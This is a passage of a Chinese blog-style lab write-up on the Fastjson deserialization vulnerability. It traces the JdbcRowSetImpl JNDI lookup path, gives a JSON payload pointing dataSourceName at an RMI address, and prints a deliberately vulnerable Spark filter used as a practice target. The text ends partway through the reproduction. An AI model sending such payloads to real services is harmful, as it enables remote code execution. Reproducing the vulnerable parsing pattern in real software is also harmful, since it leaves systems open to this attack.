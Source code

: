 ![](https://img-blog.csdnimg.cn/fbca0f32cedc450680f5b55e9d11101a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASXdhbnR1cm9vdA==,size_20,color_FFFFFF,t_70,g_se,x_16)

在定位到this.connect方法：

![](https://img-blog.csdnimg.cn/d67bb450ac91440f8a388a8f533b5b9c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASXdhbnR1cm9vdA==,size_20,color_FFFFFF,t_70,g_se,x_16)

在这里我们注意到有个lookup方法，该方法就是JNDI中访问远程服务器获取远程对象的方法，其参数为服务器地址。如果其参数可控那么就可能被攻击，而this.getDataSourceName是获取DataSourceName的值得方法，那么我们只要控制了this.setDataSourceName方法的参数就可以访问我们自己的服务器了。而我们知道Fastjson在反序列化的时候会调用所有的set方法，正好可以通过setDataSourceName对DataSourceName进行赋值。于是，我们就有了这样的Fastjson序列化数据：

```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/POC", "autoCommit":true}
```

这儿autoCommit好像必须设置为true，为啥我忘记了，昨天看的，待会儿去找找！！ 漏洞的原理就是这样，接下来就是复现了，好紧张。。。。

# 一次失败的复现

我们利用现有的靶场环境：

![](https://img-blog.csdnimg.cn/89fa5bbcf94d4379afe17f7c27fdb35e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASXdhbnR1cm9vdA==,size_20,color_FFFFFF,t_70,g_se,x_16)

将含有漏洞的war包直接放到tomcat的webapps目录下，然后启动tomcat就可以了，访问下：

![](https://img-blog.csdnimg.cn/8d3cb37607bd4836ad8c5149ddc1dd7b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASXdhbnR1cm9vdA==,size_20,color_FFFFFF,t_70,g_se,x_16)

出啊先helloword则代表靶场搭建完毕，然后我们去看看这个war包怎么写的：

![](https://img-blog.csdnimg.cn/56db757d2dc34a6b828c14e2bff4ae8c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASXdhbnR1cm9vdA==,size_20,color_FFFFFF,t_70,g_se,x_16)

这里有两个文件，主要的逻辑在过滤器那个类中，我直接给他粘出来：

```java
//// Source code recreated from a .class file by IntelliJ IDEA// (powered by FernFlower decompiler)//import com.alibaba.fastjson.JSON;import com.alibaba.fastjson.JSONObject;import com.alibaba.fastjson.parser.Feature;import spark.Spark;import spark.servlet.SparkApplication;public class IndexFilter implements SparkApplication {    public IndexFilter() {    }    public void init() {        Spark.get("/", (req, res) -> {            return "Hello World";        });        Spark.post("/", (request, response) -> {            String data = request.body();            JSONObject obj = JSON.parseObject(data, new Feature[]{Feature.SupportNonPublicField});            JSONObject ret = new JSONObject();            ret.put("success", 200);            ret.put("data", "Hello " + obj.get("name") + ", Your age is " + obj.get("age"));            response.status(200);            response.type("application/json");            return ret.toJSONString();        });    }    public static void main(String[] args) {        IndexFilter i = new IndexFilter();        i.init();    }}
```

可以看到，如果请求的方法为get则返回hello word ，如果为post则对传上来的数据进行反序列化操作，并输出 你的年纪与姓名这里面有一个

```
new Feature[]{Feature.SupportNonPublicField});             JSONObject ret = new JSONObject();             ret.put("success", 200);
```

参数是为了让被private修饰的值也能被反序列化。 我们传入正常的数据： get请求：
